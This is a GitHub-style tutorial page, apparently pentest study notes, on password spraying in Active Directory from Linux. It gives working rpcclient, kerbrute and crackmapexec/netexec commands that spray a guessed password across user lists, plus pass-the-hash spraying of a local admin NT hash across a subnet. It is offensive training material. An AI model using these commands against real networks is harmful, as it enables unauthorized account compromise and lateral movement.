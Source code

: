 # Internal Password Spraying - from Linux 🐧
Our creeated list name `valid_users.txt` if you don't have users list yet return back to [Pull User List](https://github.com/MGamalCYSEC/Active-Directory-Enumeration-and-Attacks/blob/main/AD%20Enumeration/NULL%20Sessions.md#null-sessions-to-pull-user-list)
## Using a Bash one-liner for the Attack
We will assume the password we wanna to spray it `Welcome`
```shell
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome" -c "getusername;quit" <Target-IP> | grep Authority; done
```
## Using Kerbrute for the Attack
```shell
kerbrute passwordspray -d domain.local --dc <Target-IP> valid_users.txt  Welcome
```
## Using CrackMapExec/netexec & Filtering Logon Failures
```shell
sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Welcome1 | grep +
sudo netexec smb 172.16.5.5 -u valid_users.txt -p Welcome1 | grep +
```
## Local Administrator Password Reuse
If you obtain administrative access and the NTLM password hash or cleartext password for the local administrator account (or another privileged local account), this can be attempted across multiple hosts in the network.
CrackMapExec is a handy tool for attempting this attack. It is worth targeting high-value hosts such as SQL or Microsoft Exchange servers, as they are more likely to have a highly privileged user logged in or have their credentials persistent in memory.
If we find a desktop host with the local administrator account password set to something unique such as $desktop%@admin123, it might be worth attempting $server%@admin123 against servers.
Local Admin Spraying with CrackMapExec
Sometimes we may only retrieve the NTLM hash for the local administrator account from the local SAM database. In these instances, we can spray the NT hash across an entire subnet (or multiple subnets) to hunt for local administrator accounts with the same password set. 

```shell
sudo crackmapexec smb --local-auth 10.10.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```
The `--local-auth` flag will tell the tool only to attempt to log in one time on each machine which removes any risk of account lockout.
